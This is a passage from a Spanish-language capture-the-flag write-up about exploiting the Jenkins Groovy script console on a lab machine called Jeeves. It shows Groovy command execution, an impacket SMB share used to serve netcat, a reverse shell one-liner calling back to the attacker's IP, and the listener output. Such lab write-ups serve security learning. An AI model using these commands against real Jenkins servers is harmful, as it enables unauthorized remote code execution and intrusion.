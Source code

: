 
## [](#header-2)Explotación


Encontramos algo muy interesante, se trata de la **script console**, la cual permite ejecutar scripts de forma arbitraria utilizando **Groovy**, si buscamos en la [web](https://stackoverflow.com/questions/159148/groovy-executing-shell-commands) encontramos la siguiente forma de ingresar comandos:


```
println "whoami".execute().text

Result

jeeves\kohsuke
```

Observamos que podemos ejectuar comandos correctamente, en este punto como es una máquina windows utilizaremos el `netcat.exe`, para transferirlo a la máquina víctima utilizaremos `impacket-smbserver`, para compartir el `netcat` y ejectuar una reverse shell en la máquina víctima:



```
impacket-smbserver shares $(pwd) -smb2support

Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Teniendo el servidor smb compartiendo el archivo, dentro de jenkins intentaremos acceder al `netcat` y ejectuarlo:


```
println "\\10.10.14.17\shares\nc.exe -e cmd 10.10.14.17 1234".execute().text
```

Sin embargo, esto falla debido a que el **backslash** se utiliza para escapar caracteres, entonces haremos uso de doble **backslash**:


```
println "\\\\10.10.14.17\\shares\\nc.exe -e cmd 10.10.14.17 1234".execute().text
```

Si observamos el servidor **smb**, hemos recibido una conexión y si revimos nuestro `netcat`:

```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.63] 49684
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```
